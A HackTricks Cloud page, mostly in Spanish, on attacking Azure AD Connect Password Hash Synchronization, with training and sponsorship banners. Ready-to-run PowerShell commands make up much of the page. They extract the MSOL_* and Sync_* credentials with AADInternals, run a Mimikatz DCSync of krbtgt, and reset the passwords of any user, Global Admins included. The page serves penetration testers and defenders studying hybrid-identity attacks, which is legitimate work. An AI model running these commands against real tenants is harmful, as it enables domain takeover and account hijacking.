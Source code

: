 # Az - PHS - Sincronización de Hash de Contraseña

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información Básica

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **La sincronización de hash de contraseña** es uno de los métodos de inicio de sesión utilizados para lograr una identidad híbrida. **Azure AD Connect** sincroniza un hash, del hash, de la contraseña de un usuario desde una instancia de Active Directory local a una instancia de Azure AD basada en la nube.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Es el **método más común** utilizado por las empresas para sincronizar un AD local con Azure AD.

Todos los **usuarios** y un **hash de los hashes de contraseña** se sincronizan desde el local a Azure AD. Sin embargo, las **contraseñas en texto claro** o los **hashes originales** no se envían a Azure AD.\
Además, los grupos de seguridad **integrados** (como administradores de dominio...) **no se sincronizan** con Azure AD.

La **sincronización de hashes** ocurre cada **2 minutos**. Sin embargo, por defecto, la **expiración de contraseñas** y la **expiración de cuentas** **no se sincronizan** en Azure AD. Por lo tanto, un usuario cuya **contraseña local ha expirado** (no cambiada) puede continuar **accediendo a recursos de Azure** usando la contraseña antigua.

Cuando un usuario local quiere acceder a un recurso de Azure, la **autenticación se realiza en Azure AD**.

**PHS** es necesario para características como **Protección de Identidad** y Servicios de Dominio AAD.

## Pivotar

Cuando PHS está configurado, algunas **cuentas privilegiadas** se crean automáticamente:

* La cuenta **`MSOL_<installationID>`** se crea automáticamente en el AD local. Esta cuenta recibe un rol de **Cuentas de Sincronización de Directorio** (ver [documentación](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) lo que significa que tiene **permisos de replicación (DCSync) en el AD local**.
* Una cuenta **`Sync_<nombre del servidor ADConnect local>_installationID`** se crea en Azure AD. Esta cuenta puede **restablecer la contraseña de CUALQUIER usuario** (sincronizado o solo en la nube) en Azure AD.

Las contraseñas de las dos cuentas privilegiadas anteriores se **almacenan en un servidor SQL** en el servidor donde **Azure AD Connect está instalado.** Los administradores pueden extraer las contraseñas de esos usuarios privilegiados en texto claro.\
La base de datos se encuentra en `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Es posible extraer la configuración de una de las tablas, siendo una de ellas encriptada:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

La **configuración encriptada** está encriptada con **DPAPI** y contiene las **contraseñas del usuario `MSOL_*`** en el AD local y la contraseña de **Sync\_\*** en AzureAD. Por lo tanto, comprometer estas es posible para elevar privilegios en el AD y en AzureAD.

Puedes encontrar una [visión general completa de cómo se almacenan y desencriptan estas credenciales en esta charla](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Encontrar el **servidor de conexión de Azure AD**

Si el **servidor donde está instalado Azure AD connect** está unido al dominio (recomendado en la documentación), es posible encontrarlo con:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abusing MSOL\_*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
También puedes usar [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) para obtener estas credenciales.
{% endhint %}

### Abusando de Sync\_\*

Comprometiendo la cuenta **`Sync_*`** es posible **restablecer la contraseña** de cualquier usuario (incluidos los Administradores Globales)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
También es posible **modificar las contraseñas de solo los usuarios de la nube** (incluso si eso es inesperado)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
También es posible volcar la contraseña de este usuario.

{% hint style="danger" %}
Otra opción sería **asignar permisos privilegiados a un principal de servicio**, que el usuario **Sync** tiene **permisos** para hacer, y luego **acceder a ese principal de servicio** como una forma de privesc.
{% endhint %}

### SSO Sin Problemas

Es posible usar SSO Sin Problemas con PHS, que es vulnerable a otros abusos. Revísalo en:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referencias

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
